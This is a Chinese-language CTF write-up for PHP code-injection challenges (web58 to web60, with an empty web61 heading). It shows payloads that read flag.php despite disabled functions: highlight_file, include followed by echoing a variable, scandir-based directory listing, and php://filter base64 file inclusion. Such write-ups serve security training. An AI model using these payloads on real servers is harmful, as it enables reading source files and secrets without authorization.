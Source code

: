 ![image-20250211211537846](assets/image-20250211211537846-1739279738506-1.png)

表示已被禁用

尝试发现 `highlight()` `show_sourse()` `file_get_contents()`可以用，猜测flag的文件名就是 `flag.php`，直接拿到flag

```
如果文件名不是flag.php
可以通过：
print_r(scandir(pos(localeconv())));
print_r(scandir('.'));
来查找
```

payload：

```
c=highlight_file("flag.php");
```

*注：可以通过`phpinfo()`里面的disable_functions一栏来查看被禁用的函数，但这里将`phpinfo()`给BAN了*

另外，这题还可以用文件包含的方法做：

payload:

```
POST:c=include($_GET[1]);
url/?1=php://filter/convert.base64-encode/resource=flag.php
```



#### web59

题目和上一题一样，`show_sourse()` `file_get_contents()`被BAN了，`highlight_file()`拿到flag

payload：

```
c=highlight_file("flag.php");
```



#### web60

发现flag文件名没变，这里采用另一种方法

payload：

```
c=include('flag.php');echo $flag;
```

先将文件包含过来，那变量也会被包含过来，直接输出变量即可



#### web61
